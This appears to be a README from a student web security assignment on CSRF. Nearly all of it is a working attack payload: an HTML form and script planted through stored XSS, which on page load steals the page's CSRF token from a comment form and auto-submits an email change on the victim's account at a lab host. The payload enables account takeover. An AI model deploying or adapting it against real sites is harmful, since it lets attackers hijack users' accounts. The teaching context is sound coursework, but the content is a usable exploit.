 # WebSecurity-CSRF
Web Security Assignment on CSRF


# Script that will exploit the stored XSS vulnerability and trigger a CSRF

<form id="fake_form" action="http://www.vulnerable.com:5000/profile/update-email" method="POST"> 
  <input id="my_mail"  name="email" value=""> 
  <input id="my_csrf" name="csrf" value=""> 
</form> 

<script> 
 
  function rndMail() {
    return "test@" +  Math.floor(Math.random() * 100) + ".com"; 
 } 
 
  window.onload = function() { 

    let stolen_csrf = [...document.getElementsByTagName("form")].filter((f) => {
    return f.action.includes("/comment");
  })[0].children[0].value;
 
    document.getElementById("my_mail").value = rndMail();
    document.getElementById("my_csrf").value = stolen_csrf;
    document.getElementById("fake_form").submit(); 
}
</script>
